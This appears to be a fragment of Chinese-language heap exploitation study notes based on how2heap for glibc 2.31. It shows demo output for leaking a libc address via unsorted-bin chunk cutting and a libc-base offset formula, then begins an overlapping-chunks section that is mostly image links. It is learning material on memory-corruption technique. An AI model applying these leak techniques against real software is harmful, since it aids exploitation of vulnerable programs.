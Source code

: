 ```
➜  glibc-2.31 git:(main) ✗ ./unsorted_bin-cutting-leak_libc
This demo shows how we can leak libc when we haven't UAF under tcache.
Now we get leak is : 0x7fbc222a2c60 ;
which is actually the address: <main_arena+224>
So we can get :
libcbase = leak - 224 - 0x10 - libc.sym['__malloc_hook']
```



## overlapping_chunks

glibc-2.31在`_int_malloc`的unsorted_bin部分**增加了检测**

![image-20240723233215157](./My-how2heap/images/image-20240723233215157.png)



how2heap的教程

![image-20240723233608513](./My-how2heap/images/image-20240723233608513.png)
